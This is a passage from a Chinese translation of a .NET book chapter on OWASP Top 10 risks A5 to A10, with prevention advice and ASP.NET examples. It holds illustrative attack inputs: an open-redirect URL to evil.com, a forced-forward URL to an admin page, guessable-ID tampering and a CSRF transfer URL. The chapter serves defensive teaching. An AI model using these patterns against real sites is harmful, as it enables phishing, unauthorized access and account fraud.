如您所见，关键是使用调试工具，我们可以检查信息发送到服务器时的格式。在这种情况下，有一个 WCF 服务被调用（`CustomerService.svc`），在该服务中，调用了`GetCustomer`方法，并传递一个包含客户键的 JavaScript 对象。

好吧，这就是攻击者所需的一切。现在，他们可以用另一个数字来更改它，并使用像 Fiddler 这样的工具来准备一个包含修改信息的请求，例如，关于另一个`customerId`。

在这种情况下，一个缺陷是`customerId`在很大程度上是可以预测的，因为它是一个数字。正如 Hunt 在他的文章中建议的那样，在这里使用 GUID 要安全得多，并且不会给攻击者提供任何额外的线索（记住，当我们看到如何使用 MongoDB 时，其中一个特点是 MongoDB 分配给每个文档的`ObjectId`正好是一个 GUID）。

当然，这个样本中的另一个问题是，你可以通过简单地添加请求体来发送请求，就像你仍然以预期的方式使用应用程序一样。如果你对这个攻击类型的细节感兴趣，我建议你阅读之前提到的文章。

# A5 – 安全配置错误

再次，OWASP 在定义这个安全问题的目标和动机方面非常精确：

> 良好的安全性需要为应用程序、框架、应用服务器、Web 服务器、数据库服务器和平台定义并部署一个安全的配置。安全设置应该被定义、实施和维护，因为默认设置通常是不安全的。此外，软件应保持更新。

与前面的定义相关的许多含义；其中一些已经在第九章、*架构*中提到，当我们讨论 ALM 中的安全性和提到 S3：设计安全、默认安全、部署安全时。

S3 以某种方式与这个主题相关。一方面，设计可能来自一个糟糕的初始设计，它没有以适当的方式与威胁模型相关联，因此安全漏洞只有在太晚并且需要打补丁时才会被发现。

第二点同样关键。仅当需要执行所需操作的功能被实现（或变得可见）时，才应实现（或使可见）。这是与安全相关的任何系统应用的第一原则之一。

关于部署，有几个考虑因素：外围安全，应与开发团队协商一致，以及与配置文件和资源相关的所有内容。

## 攻击的可能示例

再次，文档重现了四个与配置错误相关的攻击场景的可能示例：

+   **场景 #1**：如果生产中的任何服务器都离开了安装的管理控制台，并且默认账户相同，攻击者可能会发现这些页面，使用默认密码登录，并接管系统。

+   **场景 #2**：应从服务器中删除目录列出功能（或检查是否已删除，如果它是该服务器的默认功能）。如果攻击者可以列出文件，他们可以找到源代码并研究它，以寻找缺陷并获取对系统的访问权限。

+   **场景 #3**：与错误消息相关的额外信息是任何攻击者的重要信息来源：堆栈跟踪、ASP.NET 黄色屏幕等等。

+   **场景 #4**：有时在开发过程中，演示应用程序被用作应用程序中某些功能的证明概念。如果它们没有被删除，它们可能存在安全漏洞。

### 预防措施 – 需要考虑的方面

因此，在制定配置策略时，应根据 OWASP 检查以下要点：

+   软件过时：这涵盖了所有相关方面；操作系统、服务器、数据库管理、第三方应用程序以及解决方案可能使用的任何其他资源。（更多内容请参阅 A9）。

+   修订默认安全原则：所有可用的功能都是必需的吗？通常，对已安装项目的审查是强制性的（权限、账户、端口、页面、服务等等）。这也被称为最小权限原则。

+   你是否取消了在开发过程中启用的资源？这可以包括账户（及其密码）、文件、演示等等。

+   你是否更改了在开发过程中使用的默认错误页面？它们可能会向潜在的攻击者揭示有信息性的错误消息。

+   TFS、IDE 和库的安全设置状态如何？它们是否设置为安全值？

### 预防措施 – 措施

为了记住完整的特性集，ASVS 关于加密、数据保护和 SSL 的区域是有帮助的。然而，为了保护敏感数据，以下是一些最低限度的措施：

+   建立一个加固过程（可重复和自动化），以便在考虑安全性的情况下轻松快速地将应用程序部署到不同的环境中。

+   确保与操作系统和应用程序本身相关的软件更新过程简单且尽可能自动化。记住也要考虑库（合适的和外部库）。

+   从一开始就将架构视为一个强大的结构，它为不同的组件提供了适当的分离。

+   你应该考虑定期扫描和审计，以帮助检测配置（在系统或应用程序中）中可能存在的缺陷。

记住我们之前提到的关于敏感信息、其位置和可用性的所有内容。

此外，记住通常情况下，在云中托管应用程序是安全性的额外好处，因为这些操作中的许多都是由云的维护基础设施自动执行的。

# A6 – 敏感数据泄露

数据泄露处理信息的泄露或信息泄露。OWASP 文档定义了它，说：

> “许多 Web 应用程序没有正确保护敏感数据，如信用卡、税务识别号和身份验证凭证。攻击者可能窃取或修改这种薄弱保护的数据，以进行信用卡欺诈、身份盗窃或其他犯罪。敏感数据应得到额外保护，如静态或传输中的加密，以及在与浏览器交换时的特殊预防措施。”

这个话题与敏感信息泄露有关，当此类信息不仅可用于网络攻击，还可能用于某些类型的盗窃时，例如当健康记录、凭证、个人数据或信用卡处于风险之中时。

文档中官方提供的易受攻击场景提醒我们，对于此类数据，我们应该确认以下内容：

1.  检查这些数据中是否有任何以明文形式存储（一段时间），包括此信息的可能备份。

1.  确保这些数据既不在内部也不在外部以明文形式传输。警惕互联网上的流量，因为它默认是危险的。

1.  加密算法更新得怎么样了？例如，SHA1 几年前报告了一些漏洞（我们之前提到过），这导致一些公司转向更强的版本，SHA256 或 SHA512。

    ### 备注

    维基百科提醒我们：

    2005 年 2 月，王小云、尹毅群和李红波宣布了一种攻击。这些攻击可以在 SHA-1 的完整版本中找到碰撞，需要的操作次数少于 2e69 次。（暴力搜索需要 2e80 次操作。）

1.  生成的加密密钥有多强大？是否正在使用密钥管理和轮换？

1.  浏览器安全指令或头部如何？当这种特殊数据由浏览器提供或发送到浏览器时，它们是否缺失？

对于要避免的完整问题集，请参阅 ASVS 区域加密（V7）、数据保护（V9）和 SSL（V10）。

OWASP 提出的三个典型攻击场景如下：

+   **场景 #1**：一个应用程序使用自动数据库加密在数据库中加密信用卡号码。然而，这意味着当检索数据时，它也会自动解密这些数据，这允许 SQL 注入漏洞以明文形式检索信用卡号码。系统应该使用公钥加密信用卡号码，并且只允许后端应用程序使用私钥解密它们。

+   **场景 #2**：一个网站简单地没有对所有认证页面使用 SSL。攻击者只需监控网络流量（例如开放的无线网络）并窃取用户的会话 cookie。然后攻击者重放这个 cookie 并劫持用户的会话，访问用户的私人数据。

+   **场景 #3**：密码数据库使用未加盐的散列来存储每个人的密码。一个文件上传漏洞允许攻击者检索密码文件。所有未加盐的散列都可以通过预先计算的散列的彩虹表暴露出来。

此外，有时，更新环境提供的新功能如果使用不当，可能会导致安全漏洞。这种情况出现在我们在 HTML5 中找到的一些与`<input>`标签相关的新属性中。

例如，我们现在有一个`autocomplete`属性（大多数浏览器都支持），它激活了在本地存储中的数据缓存。实现起来相当简单：

```cs
<!-- autocomplete (requires the element to have an id)-->
<labelfor="CreditCardNo">Autocomplete</label>
<inputtype="text"id="CreditCardNo"autocomplete="on"/>
```

这激活了特定用户在该特定浏览器中的存储，每个浏览器使用一个不同的区域，并与其当时查看的页面相关联。

每次输入信用卡号码并将其发送到浏览器后，该信息都会在本地存储，并持续用于页面的后续使用。如果其他人可以访问该计算机，就没有必要知道卡号，因为只需尝试序列中的第一个数字（1,2,3…），浏览器就会建议所有以该数字开头的条目，包括最后使用的卡号。

如果你尝试这段简单的代码（不需要外部库或扩展），当你按下键盘上的数字 1（在我的示例中）时，所有以该数字开头的条目都会在一个附加的组合框中显示（参见图表下一张截图）：



因此，对于一些敏感信息，我们不应该激活这个功能（无论它对用户有多舒适），因为它可能引发严重的安全漏洞。

当然，这些信息可以像通常一样与导航历史、cookie 和其他可缓存的缓存信息一起删除。

# A7 – 缺少函数级访问控制

这个功能与授权有关，就像其他以前的功能一样。这里的问题是访问用户未授权的应用程序的部分，例如，非管理员用户访问公司其他人的私人工资记录）。通常，官方文档会精确地说明问题：

> 大多数 Web 应用程序在将功能可见性显示在 UI 之前会验证函数级访问权限。然而，当每个功能被访问时，应用程序需要在服务器上执行相同的访问控制检查。如果请求未经验证，攻击者将能够伪造请求以访问未经适当授权的功能。

症状可能各不相同：UI 显示指向未经授权的功能、身份验证和/或授权检查缺失在服务器上，甚至服务器没有检查请求的身份，等等。

OWASP 在两个场景中举例说明了这种攻击：

+   **场景 #1**：攻击者简单地强制浏览器针对目标 URL。以下 URL 需要身份验证。访问 `admin_getappInfo` 页面也需要管理员权限。

    +   `http://example.com/app/getappInfo`

    +   `http://example.com/app/admin_getappInfo`

    +   如果未经身份验证的用户可以访问任一页面，则存在缺陷。如果经过身份验证的非管理员用户被允许访问 `admin_getappInfo` 页面，这也存在缺陷，可能会导致攻击者访问更多不适当保护的管理页面。

+   **场景 #2**：一个页面提供了一个 `action` 参数来指定被调用的函数，不同的操作需要不同的角色。如果这些角色没有得到执行，则存在缺陷。

在代码内部检查访问控制实现。如果您跟踪单个特权请求，请尝试验证授权模式。然后，您可以在代码库中搜索，尝试找到模式并确定何时没有遵循该模式。请记住，自动化工具很少发现这些问题。

可能这种攻击最典型的例子之一是在请求显示 URL 中的信息结构时出现，使用户能够猜测可能的攻击。例如，攻击者在请求后看到以下内容：

```cs
http://thesite.com/application?userId=1234
```

然后，很容易找出遵循的模式以获取他人的信息，只需更改请求末尾的数字即可。如果没有关于授权的适当程序，用户可以控制未经授权的数据。

## 预防

预防措施已经建立，尽管它们相当难以自动化（大多数应该手动管理，尽管有一些工具）：

+   尝试使用普通用户帐户从管理组件获取信息。

+   使用代理并以管理员身份访问应用程序。然后，尝试使用之前的普通用户凭据访问受限页面。

+   尽可能多地了解系统如何验证管理员，并确保实施适当的安全程序。

+   如果该函数是工作流的一部分，请尝试检查条件是否处于合适的状态以允许访问。

+   尝试审计尝试访问信息的失败尝试，以发现攻击的可能路径。

+   在每个操作方法（ASP.NET MVC 和经典 ASP.NET）中根据角色提供访问权限。这意味着必须避免根据单个用户授予访问权限。

最后，请注意，与 IIS 相关，有两种执行模式：经典模式（并且直到 IIS 6 版本只有这一种）和集成模式。在集成模式（从 IIS 7 开始使用）中，.NET 看到任何请求，因此特定的`handler`可以授权每个请求，即使请求是针对非.NET 资源（如 JavaScript 或多媒体文件）。

所以，如果你正在运行 IIS7+版本，请确保集成模式是激活的，因为否则.NET 只处理对`.aspx`、`.ascx`等文件的请求，因此其他文件可能是不安全的。

# A8 – 跨站请求伪造

考虑到这种威胁的性质，官方 OWASP 文档用攻击用例来定义它：

> CSRF 攻击迫使已登录的受害者的浏览器发送一个伪造的 HTTP 请求，包括受害者的会话 cookie 和任何其他自动包含的认证信息，到易受攻击的 Web 应用程序。这允许攻击者迫使受害者的浏览器生成易受攻击的应用程序认为是从受害者发出的合法请求。

可能最典型的案例之一是文档中暴露的这种类型的*规范*攻击。

问题是一个允许用户使用纯文本发送请求到银行的应用程序，没有任何加密，例如，`http://example.com/app/transferFunds?amount=1500&destinationAccount=4673243243`。

在这种情况下，攻击者构建另一个请求，将资金从受害者的账户转移到攻击者的账户。为了使其生效，攻击者将此代码嵌入到 DOM 类型的请求中，就像我们在之前的问题中看到的，例如一个`image`请求或存储在攻击者控制的各个网站上的`iframe`：

```cs

```

现在，如果潜在的受害者在他们已经认证到`example.com`的情况下访问攻击者的任何网站，这个伪造的请求将包括受害者的会话信息，从而授权攻击者的请求。

## 预防

OWASP 建议：

> 预防 CSRF 需要在每个 HTTP 请求中包含一个不可预测的令牌。

此外，这些令牌应该对每个用户会话是唯一的。

+   你可以将它们包含在一个隐藏字段中，例如。值将在 HTTP 请求的主体中发送，所以我们不会通过 URL 破坏这个过程。

+   URL（或 URL 参数）也可以使用。然而，正如你可以想象的那样，这假设了更高的风险，因为它可以被分析。

+   另一种预防措施是要求用户重新认证（这在电子商务交易中非常常见）或甚至使用 CAPTCHA 来证明是一个人类。

在.NET 中，我们在 A2 中看到我们的 ASP.NET 初始演示将包括一个名为`[AntiForgeryToken]`的属性，用于标记带有`[HttpPost]`属性的函数。

因此，你会看到以这种方式标记的方法：

```cs
[ValidateAntiForgeryToken]
publicActionResultMethodProtected()
{
  // some code
}
```

如果你检查与这些操作方法相关的视图，你会看到 Razor Helper 的存在：

```cs
@Html.AntiForgeryToken()
```

这确保了用户无法从远程站点提交表单，因为他们没有生成令牌的方法（而且你甚至可以向其中添加**盐**）。这为防止 CSRF 攻击提供了足够的保护。

# A9 – 使用已知漏洞的组件

这里的问题是外部的，某种意义上。有一些带有漏洞的库可以使用自动化工具识别和利用。这样，威胁代理可以扩展到已知的攻击形式之外，包括未知的风险因素。

官方定义指出 A9，表示：

> “组件，如库、框架和其他软件模块，几乎总是以完全权限运行。如果一个有漏洞的组件被利用，这种攻击可以导致严重的数据丢失或服务器接管。使用已知漏洞组件的应用程序可能会削弱应用程序的防御，并使一系列可能的攻击和影响成为可能。”

起初，似乎很容易找出商业或开源组件是否有已知漏洞。然而，不同版本的风险因素，尤其是最新版本，一方面被认为是更安全的，可以修复旧问题，但另一方面，它们可能引入新的缺陷。更不用说并非所有漏洞都报告给控制站点。

有像**CVE**（**常见漏洞和暴露**）这样的地方，可以在[`cve.mitre.org/`](https://cve.mitre.org/)找到，或者可以在[`web.nvd.nist.gov/view/vuln/search`](https://web.nvd.nist.gov/view/vuln/search)访问的**国家漏洞数据库**（**NVD**），在这些地方你可以搜索这类问题。

这里的问题是组件中的漏洞可能会引起各种各样的问题，从最简单的到最复杂的，针对某些类型组件的攻击被特别考虑。

例子很多，但让我们只考虑几个常见问题：

+   多年来，Adobe Flash 一直是公司用于在浏览器中重现视频、插入广告、播放音频等的最受欢迎的扩展。实际上，有那么多，Adobe 不得不定期发布更新来处理安全问题。

    +   2010 年，史蒂夫·乔布斯宣布苹果移动设备将不再使用 Adobe Flash，这一情况达到了临界点。他发布了一封信件，解释了这样做的主要六个原因([`www.apple.com/hotnews/thoughts-on-flash/`](http://www.apple.com/hotnews/thoughts-on-flash/))，并推荐使用 HTML5 等标准。

+   在 Windows 世界中，有很多例子，但为了给你一个概念，让我们考虑一个简单的桌面应用程序，它使用了一些控制面板的组件（另一方面，这是推荐的方法，而不是重新发明轮子）。

    +   现在，假设我们有一个简单的选项菜单，允许用户在打印报告之前选择配置。在.NET 中，我们有几个组件可用，它们映射到操作系统的相应对话框：**打印对话框**、**打印预览**、**打印文档**等等。

    +   如果我们不限制输入值，我们可能会陷入麻烦。比如说，用户被允许在字体大小（或者更糟糕的是，在副本数量）中给出任何值。对于某些配置，用户可以设置字体大小为 900 pt，副本数量为 32564。系统可能会崩溃，或者网络中的打印服务器可能会开始使用虚拟内存来存储发送的大量信息。在这里，我们有一个非常简单的方式来构建**DoS**（**服务拒绝**）攻击。

我们必须考虑到，通常，组件以应用程序的完整权限运行，而我们通常没有源代码来防止这些攻击。

正式来说，我们应该做以下事情：

1.  识别您正在使用的所有组件及其版本，包括所有依赖项（例如，版本插件）。

1.  监控这些组件在公共数据库、项目邮件列表和安全邮件列表中的安全性，并保持它们更新。

1.  制定管理正在使用的组件的安全策略，例如要求某些软件开发实践、通过安全测试以及拥有可接受的许可证。

1.  在适当的情况下，考虑在组件周围添加安全包装，以禁用未使用的功能以及/或保护组件的薄弱或易受攻击的方面。

在.NET 中，OWASP 针对这一漏洞创建了一份新文档：OWASP SafeNuGet，可在[`www.owasp.org/index.php/OWASP_SafeNuGet`](https://www.owasp.org/index.php/OWASP_SafeNuGet)找到。然而，如果您需要测试某个组件，所需的代码在同名 GitHub 项目中可供使用（[`github.com/OWASP/SafeNuGet`](https://github.com/OWASP/SafeNuGet)），在那里您将找到一个 MSBuild 项目，可以帮助您完成任务，以及说明和细节。

# A10 – 无效的重定向和转发

> 网络应用程序经常将用户重定向和转发到其他页面和网站，并使用不可信的数据来确定目标页面。如果没有适当的验证，攻击者可以将受害者重定向到钓鱼或恶意网站，或者使用转发来访问未经授权的页面。

正如您在官方定义中看到的，这里的问题是重定向。或者，更准确地说，问题是非安全方式的重定向。

官方文档建议，了解某些软件是否包含危险的转发重定向的最佳方法如下：

+   修改任何重定向或转发（.NET 中的传输）的代码。一旦确定，检查目标 URL 是否包含在任何参数值中。如果是，目标 URL 没有通过白名单进行验证，因此，你存在漏洞。

+   另一种可能性是网站生成重定向，这对应于 HTTP 响应代码 300-307，通常是 302 代码。在这里，我们应该检查重定向之前提供的参数，以查看它们是否看起来像目标 URL 或 URL 的片段。如果是，你必须更改 URL 目标并观察网站是否重定向到新的目标。

+   如果没有代码要审查，那么你应该检查所有参数，以寻找相同的 URL 模式，测试那些真正执行重定向的参数。

文档包括几个攻击示例，我们可以将其适应.NET 环境：

+   **场景 #1**：应用程序有一个名为`redirect.aspx`的页面，它接受一个名为`url`的单个参数。攻击者构建一个恶意 URL，将用户重定向到执行钓鱼和安装恶意软件的恶意网站：

    ```cs
    http://www.example.com/redirect.aspx?url=evil.com

    ```

    在这种情况下，问题在于在`url`参数旁边，攻击者可能会被重定向到他们自己的网站或其他类型的网站。

+   **场景 #2**：应用程序使用转发在网站的各个部分之间路由请求。为了方便起见，一些页面使用一个参数来指示如果交易成功，用户应该被发送到何处。在这种情况下，攻击者构建一个 URL，该 URL 将通过应用程序的访问控制检查，然后将攻击者转发到攻击者未经授权的行政功能：

    ```cs
    http://www.example.com/something.aspx?fwd=admin.aspx

    ```

记住，这种类型的行为在 Web 开发中很常见。

# 摘要

在本章中，我们探讨了 OWASP Top 10 倡议，分析了每种威胁的风险和后果，以及可能的预防方法。

我们还包含了一些针对那些已经在 Visual Studio 模板中解决或易于实现且在常用中常见的威胁的代码。

在下一章中，我们将介绍应用程序的优化以及.NET 提供的编译为本地代码的不同技术，例如通过配置程序集进行优化、并行性等。
